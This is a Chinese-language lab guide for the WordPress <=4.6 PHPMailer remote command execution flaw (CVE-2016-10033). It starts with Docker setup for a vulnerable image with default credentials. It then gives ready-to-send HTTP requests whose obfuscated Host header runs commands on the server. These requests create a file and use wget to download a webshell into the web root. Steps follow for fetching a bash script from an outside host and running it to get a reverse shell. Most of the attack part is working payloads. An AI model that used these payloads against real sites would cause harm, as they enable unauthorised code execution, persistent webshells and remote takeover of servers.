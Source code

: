 ## WordPress <= 4.6 命令执行漏洞(PHPMailer)(CVE-2016-10033)

### 漏洞信息

 WordPress 是一种使用 PHP 语言开发的博客平台，用户可以在支持 PHP 和 MySQL 数据库的服务器上架设属于自己的网站。也可以把 WordPress 当作一个内容管理系统（CMS）来使用。WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。

### 影响版本

WordPress <= 4.6

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
Mysql | root | root
/wp-admin/ | admin | admin123

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:w_wordpress_6
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:w_wordpress_6
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 看到 WordPress 主界面代表启动成功


### POC

> 假如目标地址为： http://127.0.0.1:8000/

1. 把下面的HTTP报文复制到 BurpSuite Repeater 中，点击 Go 按钮，填写目标 IP 和 端口（例如, IP填 127.0.0.1 端口填 80）

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}vuln}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

2. 访问：http://127.0.0.1:8000/vuln

看到返回状态码为 200 代表已经成功创建了 `/var/www/html/vuln` 文件

> 可在发包之前访问该地址，会出现 404

### Exp

思路： 在远程 HTTP 服务器上创建一个文本文件，通过 `wget` 下载到目标机器上

#### 向目标写 WebShell（强烈不推荐）

> 都能命令执行了，还传什么 WebShell

1. 执行命令如下：

```
/usr/bin/wget --output-document /var/www/html/webshell.php raw.githubusercontent.com/medicean/vulapps/master/w/wordpress/6/webshell.php
```

> 注意： 
> 1. 远程 URL 中不要有 `http://`
> 2. 所有字母必须小写
> 3. 所有 / 用 `${substr{0}{1}{$spool_directory}}` 代替
> 4. 所有 空格 用 `${substr{10}{1}{$tod_log}}` 代替

报文如下(根据实际情况替换 user_login, 默认是 admin)：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}var${substr{0}{1}{$spool_directory}}www${substr{0}{1}{$spool_directory}}html${substr{0}{1}{$spool_directory}}webshell.php${substr{10}{1}{$tod_log}}raw.githubusercontent.com${substr{0}{1}{$spool_directory}}medicean${substr{0}{1}{$spool_directory}}vulapps${substr{0}{1}{$spool_directory}}master${substr{0}{1}{$spool_directory}}w${substr{0}{1}{$spool_directory}}wordpress${substr{0}{1}{$spool_directory}}6${substr{0}{1}{$spool_directory}}webshell.php}} null)
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

2. 访问 http://127.0.0.1:8000/webshell.php

#### 反弹 Shell（推荐）

远程文本文件内容如果是 bash 脚本，可在下载到目标后，直接用 `/bin/bash` 来执行该文件

1. 下载bash脚本到目标

```
/usr/bin/wget --output-document /tmp/rce example.com/1.txt
```

2. 执行

```
/bin/bash /tmp/rce
```

### 相关链接

* [WordPress Core 4.6 - Unauthenticated Remote Code Execution (RCE) PoC Exploit](https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html)
